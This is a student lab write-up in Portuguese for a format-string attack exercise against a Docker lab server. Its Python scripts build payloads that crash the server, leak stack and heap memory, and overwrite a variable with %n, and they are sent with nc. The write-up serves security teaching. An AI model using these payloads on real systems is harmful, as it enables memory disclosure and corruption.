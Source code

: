 # Semana 7 - Format String Attack

## Task 1 - Crashing the Program

Depois de dar setup deste lab e com o servidor pronto para receber uma mensagem, através do docker, temos como missão crashar o servidor.<br>
Para tal como é referido no guião, o servidor aguenta até 1500 bytes de dados, portanto, para o servidor crashar, precisamos de escrever mais de 1500 bytes de dados para o servidor.<br>
Para fazer isso criamos um ficheiro `badfile` que irá conter a mensagem para enviar para o servidor, e utilizamos o `build_string.py` que contém um script em python para escrever a mensagem para o ficheiro `badfile`.

O `build_string.py` contém o seguinte código:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1501
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Com o ficheiro pronto para ser enviado, basta enviar a mensagem para o servidor, através do seguinte comando:

`cat badfile | nc 10.9.0.5 9090`

![image](Semana_7\images\image.png)

Com isto, o servidor não respondeu com **(^\_^)(^\_^)  Returned properly (^\_^)(^\_^)**, o que significa que crashou.

## Task 2 - Printing Out the Server Program’s Memory

### Task 2.A  - Stack Data

Para realizar esta task, alteramos o ficheiro `build_string.py` para escrever um inteiro de 4 bytes e 64 %x. O ficheiro ficou assim:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))


number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')


s = "%.8x"*64

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

Agora, basta correr o `build_string.py` para criar o `badfile` e rodar o comando:

`cat badfile | nc 10.9.0.5 9090`

E obtemos a seguinte resposta:

![image](Semana_7\images\image2.png)

Como podemos observar, o nosso inteiro **0xbfffeeee** foi printado no terminal após 64 bytes.

### Task 2.B - Heap Data

No server printout, é referido que a mensagem secreta está no endereço `0x080b4008` portanto temos que alterar o ficheiro `build_string.py` para ficar desta forma:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))

number  =  0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt


with open('badfile', 'wb') as f:
  f.write(content)
```

Alteramos o input para o servidor ler o que está no endereço `0x080b4008`, escrever as próximas 63 posições e finalmente escrever em formato string o que estava no endereço dado no input.

![image](Semana_7\images\image3.png)

Concluímos que a mensagem secreta é **A secret message**

## Task 3 - Modifying the Server Program’s Memory

### Task 3.A - Change the value to a different value

Para agora mudar a variável `target`, que está no endereço `0x080e5068` podemos fazer o que fizemos na task passada, mas mudar o endereço passado como input e, em vez de adicionar um `%s` ao final, podemos adicionar um `%n`, que vai escrever o número de caracteres lidos no endereço passado no input.<br>

O `build_string.py` ficou assim:

```py
#!/usr/bin/python3
import sys

N = 1000
content = bytearray(0x0 for i in range(N))

number  =  0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt


with open('badfile', 'wb') as f:
  f.write(content)
```

![image](Semana_7\images\image4.png)

Como podemos observar, a variável `target` ficou com o valor **0x000001fc**, e inicialmente era **11223344**

## Task 3.B - Change the value to 0x5000

Agora, como queremos mudar a variável `target` para `0x5000` podemos usar a mesma approach que usamos na task anterior, mas o `%n` terá que escrever o valor `0x5000`, ou seja, terá que ler 20480 bytes, 0x5000 em decimal.<br>
Para fazer isso, podemos utilizar a notação `.NX`, onde **N** é 20480 - 4 - 63*8 = 19980.<br>

Portanto s fica: `"%.19980x" + "%.8x"*62 + "%n"`<br>

Quando enviamos a mensagem ao servidor observamos o seguinte:

![image](Semana_7\images\image5.png)

Como podemos ver, a variável `target` ficou com valor **0x5000**.
